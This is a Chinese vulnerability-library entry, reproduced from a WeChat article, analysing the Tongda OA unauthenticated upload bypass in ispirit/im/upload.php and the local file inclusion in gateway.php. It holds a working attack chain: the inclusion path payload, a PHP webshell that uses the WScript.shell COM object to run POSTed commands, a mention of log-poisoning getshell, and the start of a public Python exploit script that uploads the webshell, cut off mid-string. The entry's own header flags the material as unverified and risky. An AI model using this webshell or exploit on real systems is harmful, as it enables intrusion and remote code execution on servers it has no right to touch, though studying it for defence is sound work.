# 通达OA ispirit/im upload绕过及gateway本地包含

## 条目说明

- 对象与具体问题：通达OA；ispirit/im upload绕过及gateway本地包含
- 版本、配置及部署条件：上传2013–2017/V11；称仅2017/V11有包含；Windows COM
- 认证与权限前提：P非空绕过
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 参数/路径分析较完整但源码多为截图；DEST_UID条件需保留实际代码
- 脚本固定2003目录、断行字符串、Markdown转义导致不可直接复用
- 在线解密会传源码给第三方，应提示保密风险优先本地
- 与234版本范围冲突，上传/包含/COM条件分开

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行；在线解密或外部服务可能收到凭据及敏感内容。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

\> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/gurRWW4HPFYIsEBGrboYug)

影响

影响范围 (但是只有 V11 版和 2017 版有包含文件的 php, 其余版本能上传文件.):  

V11 版 2017 版 2016 版 2015 版 2013 增强版 2013 版。

这个漏洞是几个月前的漏洞，主要是学习一下这个漏洞代码的形成原理和调式过程。

该漏洞主要是通过绕过身份验证的情况下上传文件，然后通过文件包含漏洞实现代码执行

代码分析

源码经过 zend 5.4 加密, 解密工具:

SeayDzend, 可以自行百度下载



在线解密

http://dezend.qiling.org/free.html

任意文件上传的关键文件

webroot\\ispirit\\im\\upload.php

代码分析:



可以看到只要判断 P 参数是否不为空，就开启了 session

没有 P 参数时候



有的时候



继续往下走



判断 DEST\_UID 是否不为空，否则就会退出

判断 DEST\_UID=0 的时候，如果 UPLOAD\_MODE 不等于 2 就直接退出了

判断 DEST\_UID 不等于 0 的时候直接判断 $\_FILES 数量是否有，也就是判断有没有上传文件

这里可以是第二个情况，DEST\_UID=0，UPLOAD\_MODE=2 进行下一步



也可以是 DEST\_UID 不为 0 进入下一步



继续往下走



可以这里又 if 语判断上传的模式，我们来看看上传的模式有哪几种，可以看到总共有 1,2,3，其中 1,2,3 如果成功了是有回显的





这里设置 upload\_mode 为 1，进入 upload 函数





会判断是否 / 字符，然后判断上传的文件是否符合可上传的格式，我们继续走 is\_uploadable



可以看到如果上传的格式是 php，会返回 false, 这里用 xxx.php. 绕过

回过头来看 upload 函数，最终会返回一个 $ATTACHMENTS 的数组，包含了 ID，和 NAME


继续跟进，发现 ATTACHMENTS 是由 add\_attach 函数生成的



继续跟进

发现 $FILENAME 的拼成



继续往下走的时候发现 $path，和文件名的最终结果



各种追踪发现就是 attch/im/$YM / 文件夹下面



其实不用这么复杂，就直接上传文件，然后搜索那个文件最终放在哪不就完事了吗？或者使用火绒剑分析行为和 D 盾进行文件监控

上传结合前面的分析需要的参数有



这里不同的上传模式，回显的格式不一样，这里的 2 格式舒服点，目录就是 2003, 文件名对应后面的 ID





由于这里的关键上传了文件后 OA 系统有个文件包含漏洞，结合文件包含漏洞就可以实现 RCE

文件包含代码位置

/ispirit/interface/gateway.php  



首先会接受一个 json 数据，然后转换为数组，然后遍历这个数据，如果 key 是 url，url 就对应值

然后继续走



然后走到 strpos，可以看到如果出现 general/，ispirit，module / 就会触发文件包含构造 payload

/general/../../attach/im/2003/1191415788.1.php

由于我上传的时候是 phpinfo 函数，是禁用了这个函数的和危险函数，这里可以使用写入一个 webshell 在当前执行的 / ispirit/interface / 目录下



记得这里文件名前面要加个 \\







当然也可以使用 COM 组件 bypass 危险函数

```
<?php
$command=$\_POST\['cmd'\];
$wsh = new COM('WScript.shell');
$exec = $wsh->exec("cmd /c ".$command);
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
```

也可以直接使用文件包含配合日志 getshell

直接触发 nginx 的错误日志，利用文件包含直接 getshell

利用网上公开的脚本：

```
#!/usr/bin/env python3
# -\*- encoding: utf-8 -\*-
# oa通达文件上传加文件包含远程代码执行
import requests
import re
import sys

def oa(url):
    upurl = url + '/ispirit/im/upload.php'
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,\*/\*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1", "Content-Type": "multipart/form-data; boundary=---------------------------27723940316706158781839860668"}
    data = "-----------------------------27723940316706158781839860668\\r\\nContent-Disposition: form-data; name=\\"ATTACHMENT\\"; filename=\\"jpg\\"\\r\\nContent-Type: image/jpeg\\r\\n\\r\\n<?php\\r\\n$command=$\_POST\['cmd'\];\\r\\n$wsh = new COM('WScript.shell');\\r\\n$exec = $wsh->exec(\\"cmd /c \\".$command);\\r\\n$stdout = $exec->StdOut();\\r\\n$stroutput = $stdout->ReadAll();\\r\\necho 